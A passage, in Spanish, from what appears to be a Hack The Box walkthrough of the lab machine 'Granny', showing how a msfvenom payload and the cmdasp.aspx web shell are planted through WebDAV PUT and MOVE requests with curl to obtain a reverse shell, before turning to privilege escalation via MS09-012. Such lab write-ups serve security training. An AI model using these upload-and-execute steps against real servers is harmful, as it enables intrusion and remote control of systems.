 Se crea un archivo txt con el payload malicioso (generado por msfvenom) en su contenido:

![](https://i.imgur.com/7TVaPMG.png)

El metodo MOVE permite renombrar (similar al comando **move** de Linux) el archivo revershell.txt a revershell.aspx:


![](https://i.imgur.com/PG4pySK.png)

Se envía una solicitud GET para que se ejecute nuestro payload:
```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/GRANNY]
└─# curl -X GET "http://10.10.10.15/revershell.aspx"
```

Y se obtiene una revershell:

![](https://i.imgur.com/m9IccAL.png)


## WebShell
También se puede obtener una WebShell antes de conseguir acceso directo con msfvenom:

```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/GRANNY]
└─# cp /usr/share/webshells/aspx/cmdasp.aspx . 
```

```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/GRANNY]
└─# curl -X PUT http://10.10.10.15/webshell.txt --data-binary @cmdasp.aspx 
```
```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/GRANNY]
└─# curl -X MOVE -H 'Destination:http://10.10.10.15/webshell.aspx' 'http://10.10.10.15/webshell.txt'
```

Se obtiene una webshell:

![](https://i.imgur.com/KA5smxa.png)


# Escalación de Privilegios

Esta máquina tiene un sistema operativo Windows Server 2003 el cual posiblemente posee muchas rutas para la escalada de privilegios:

![](https://i.imgur.com/ZOM5pXj.png)

En este caso se usará la vulnerabilidad que se incluye en el MS09-012.

## Subiendo binarios
